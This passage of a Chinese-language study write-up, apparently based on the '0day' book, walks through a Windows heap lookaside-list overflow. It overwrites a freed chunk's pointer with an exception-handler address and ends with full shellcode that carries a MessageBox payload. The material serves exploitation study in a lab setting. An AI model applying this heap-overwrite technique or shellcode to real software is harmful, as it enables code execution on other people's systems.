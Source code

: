 编译运行，单步到第三次HeapAlloc后，分别记录这个过程中h1/h2/h3的地址：

```c
h1 = 0x003a1e90
h2 = 0x003a1ea8
h3 = 0x003a1ec0
```

它们在栈上分布如下：

![Bildschirmfoto 2018-11-03 um 8.43.49 PM.png]({{ site.url }}/images/0day/0CFB03CB6E6AF97A593BBD008F48590B.png)

继续单步，执行完两次HeapFree。此时h2的后向指针指向h3：

![Bildschirmfoto 2018-11-03 um 8.52.36 PM.png]({{ site.url }}/images/0day/8B845286D7A797D53CDD01900888F1E1.png)

且lookaside[2]指向h2:

![Bildschirmfoto 2018-11-03 um 8.57.08 PM.png]({{ site.url }}/images/0day/80F0B5CE55B5170016068A4F48F931CD.png)

至此，我们得知向h1中复制的`24 ~ 27`字节将覆盖h2的后向指针。修改shellcode，我们将其覆盖为上节用过的缺省异常处理函数指针`0x0012ffe4`。再次调试，单步到第四次HeapAlloc后，此时lookaside[2]指向异常处理函数位置：

![Bildschirmfoto 2018-11-03 um 9.04.22 PM.png]({{ site.url }}/images/0day/E42246DAFA0A06192C0A773573FCBBF8.png)

单步到第五次HeapAlloc后，此时h3获得的便是`0x0012ffe4`：

![Bildschirmfoto 2018-11-03 um 9.04.49 PM.png]({{ site.url }}/images/0day/AD3E197E54C8C28F04F99D0454C2A7AA.png)

继续单步，最后的memcpy将其覆盖为h1起始地址：

![Bildschirmfoto 2018-11-03 um 9.05.49 PM.png]({{ site.url }}/images/0day/DB4641AEA37F4BFF811937650F75B29C.png)

既然如此，我们把payload添加一些nop，然后紧跟在之前的shellcode后即可。最后调试发现需要在shellcode开头添加短跳去跳过垃圾指令。这个shellcode排布比较简单，就不细化了，最终如下：

```c
	char shellcode[] = 
	// short jmp
	"\xeb\x28"
	// 14 nops
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	// just work like chunk-header
	"\x03\x00\x03\x00\x5c\x01\x08\x99"
	// exception handler
	"\xe4\xff\x12\x00"
	// 16 nops
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	// messagebox
	// 168 messagebox
	"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
	"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
	"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
	"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
	"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
	"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
	"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
	"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
	"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
	"\x53\xff\x57\xfc\x53\xff\x57\xf8";
```
